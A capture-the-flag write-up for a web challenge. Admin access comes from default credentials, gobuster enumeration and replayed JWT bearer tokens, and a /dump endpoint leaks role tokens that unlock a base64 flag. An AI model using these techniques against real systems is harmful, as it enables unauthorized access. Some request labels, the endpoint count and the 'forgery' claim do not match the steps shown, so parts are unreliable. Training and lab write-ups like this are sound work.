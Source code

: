 # 🚀 Silent Vault
**Category** Web Security    
**Difficulty** Medium  
**Points:** 200


## Description
An internal system recently flagged unusual activity: a standard user was able to perform actions reserved for administrators. No credentials were leaked, and logs show no sign of direct tampering.

Investigate the incident and replicate the behavior to uncover the flag.

URL: https://ctf-question1.onrender.com

Flag Format: LakshyaCTF{...}

## Tools Used

 * burpsuit
 * gobuster
 * base64

## 🧠 Analysis

- Step 1: Trying Luck  
  We saw there was two input fields `username` and `password`. By betting on our luck we tried `username:admin` `password:admin`. And it lead us to finding a jwt token
  ```json
  {"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NTIzOTM4NiwianRpIjoiODRlNGQ2YzYtMTljMy00ZTc5LTk1ZGItNjE4ZmY3Nzg4ZDM3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzQ1MjM5Mzg2LCJjc3JmIjoiZTNmZTEzZWEtYzU5Mi00OGNkLWIwMjktMmU1MGNhODAwY2E0IiwiZXhwIjoxNzQ1MjQwMjg2fQ.p4-R-YW32NkPzrO7UF5I21xfQW0Jqed49SVcSwwkWSc"}
  ```

- Step 2: Burp Suite: Now loading malicious intentions...  
  Then we boot up into the burpsuit capture the website traffic, send it to the repeater, add:
  ```bash
  Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NTI0MTk3NCwianRpIjoiZjNhMDc0MzEtMzk1MC00ZjEyLTk2MmItNDhlZGI5MzM4NTlkIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzQ1MjQxOTc0LCJjc3JmIjoiZTFjY2Q2MmYtNzEzZC00MjA3LWE5YzUtZTJjMzYwMWEzYTQyIiwiZXhwIjoxNzQ1MjQyODc0fQ.KdNLOlX6JwHlu_32J7GL8ggAwlHrTAyMPHCOxEMdPt4
  ```
  into the request sent it and then.....
  ```json
  {"error":"Missing credentials"}
  ```
- Step 3: Go Go----  GoBuster  
  After the dead end we ran gobuster
  ```bash
  $ gobuster dir -w /usr/share/wordlist/dirb/common.txt -u https://ctf-question1.onrender.com
  ```
  And we got three endpoints
  1. /admin
  2. /dump
  3. /flag  
  4. /robots.txt

- Step 4: Checking the gobuster endpoints   
   1. /robot.txt:
      ```html
      User-agent: *
      Disallow: /flag
      ```
  2. /admin:
      ```json
      {"msg":"Missing Authorization Header"}
      ```
  3. /dump:
      ```json
      {"msg":"Missing Authorization Header"}
      ```
  4. /flag:
      ```json
      {"msg":"Missing Authorization Header"}
      ```
- Step 5: Giving them what they need #authorization  
  We went back to the `burp` and set
  * At `/admin` endpoint Request (P.S same access token found at step 1):
    ```bash
    GET /dump HTTP/2
    Host: ctf-question1.onrender.com
    Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NTI0MTk3NCwianRpIjoiZjNhMDc0MzEtMzk1MC00ZjEyLTk2MmItNDhlZGI5MzM4NTlkIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzQ1MjQxOTc0LCJjc3JmIjoiZTFjY2Q2MmYtNzEzZC00MjA3LWE5YzUtZTJjMzYwMWEzYTQyIiwiZXhwIjoxNzQ1MjQyODc0fQ.KdNLOlX6JwHlu_32J7GL8ggAwlHrTAyMPHCOxEMdPt4
    ```
    Response:
    ```json
    {"message":"Welcome, admin! You have access to the admin panel."}
    ```
  * At `/dump` endpoint Request:
    ```bash
    GET /dump HTTP/2
    Host: ctf-question1.onrender.com
    Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NTI0MzI0OSwianRpIjoiYzFkYzU3NzQtNDI5ZS00ZTAxLWE4ZTMtODAyYjRjYmI2MGJlIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzQ1MjQzMjQ5LCJjc3JmIjoiOWE0MThkNWQtMWE1Ny00Y2I3LTliODctMDRjYWU3MjQyYTA4IiwiZXhwIjoxNzQ1MjQ0MTQ5fQ.HDVp34YxEMEGWBw2CXExrYnWfPp1-lsoe9JYH4GkmAU
    ```
    Response:
    ```json
    {  "admin":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NTI0MzgyMywianRpIjoiYWJiMGU2NWEtMmEzZC00NjJjLWFmY2UtOWUzODdhZGE2NGIzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzQ1MjQzODIzLCJjc3JmIjoiY2E4OTNhMWYtNzJmMi00NmY3LTk0OWYtNDZmY2Q3NTVkNDc4IiwiZXhwIjoxNzQ1MjQ0NzIzfQ.aaqfLbMrA3Dzs9QGmqlOQYqMnqmboN38Bc9EJd5csx4",  "flag":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NTI0MzgyMywianRpIjoiYmFlNjEyYTItODlhNy00MzA2LTkyNWQtYzJmOGQ3Y2Q3ZTI3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImZsYWciLCJuYmYiOjE3NDUyNDM4MjMsImNzcmYiOiJmOTI4NjBlZS04NmU0LTQ0YWMtYmUxMi1kZTE0NDQzOTdkOTIiLCJleHAiOjE3NDUyNDQ3MjN9.gpjHoVnkYvVDHwqQqUmdBSSJqVXh2uNGg-P3O6slS7A",  "user":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NTI0MzgyMywianRpIjoiN2FiNGU3NzgtN2FkMC00NjRhLWEyZDUtZmRiYzU5NzMxN2Q5IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE3NDUyNDM4MjMsImNzcmYiOiI4MDc1NTE3ZS02MTYwLTRiMmQtOTU3Yi04MDFkY2E4MTVjOTciLCJleHAiOjE3NDUyNDQ3MjN9.CwHNNwMwgXbxlg4s92Vqt0KFV-Nc5478YUAu-yxtgI0"    }
    ```
  * At `/flag` endpoint request (P.S this token was dumped from `/dump` {"flag": `<jwt_token>`}):
    ```bash
    GET /dump HTTP/2
    Host: ctf-question1.onrender.com
    Authorization: Bearer   eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NTI0MzgyMywianRpIjoiYmFlNjEyYTItODlhNy00MzA2LTkyNWQtYzJmOGQ3Y2Q3ZTI3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImZsYWciLCJuYmYiOjE3NDUyNDM4MjMsImNzcmYiOiJmOTI4NjBlZS04NmU0LTQ0YWMtYmUxMi1kZTE0NDQzOTdkOTIiLCJleHAiOjE3NDUyNDQ3MjN9.gpjHoVnkYvVDHwqQqUmdBSSJqVXh2uNGg-P3O6slS7A
    ```
    Response:
    ```json
    {"flag":"TGFrc2h5YUNURnt1X3BFckZvTWVEX2pXdF9mT3JHZVJ5fQ=="}
    ```

- Step 6: Decoding the flag  
  Looking at the encoded flag we thought of decoding it using base64
  ```bash
  $ echo TGFrc2h5YUNURnt1X3BFckZvTWVEX2pXdF9mT3JHZVJ5fQ== | base64 -d
  LakshyaCTF{u_pErFoMeD_jWt_fOrGeRy}
  ```  
  and we got the flag..

## 🏁 Flag

```bash
LakshyaCTF{u_pErFoMeD_jWt_fOrGeRy}
```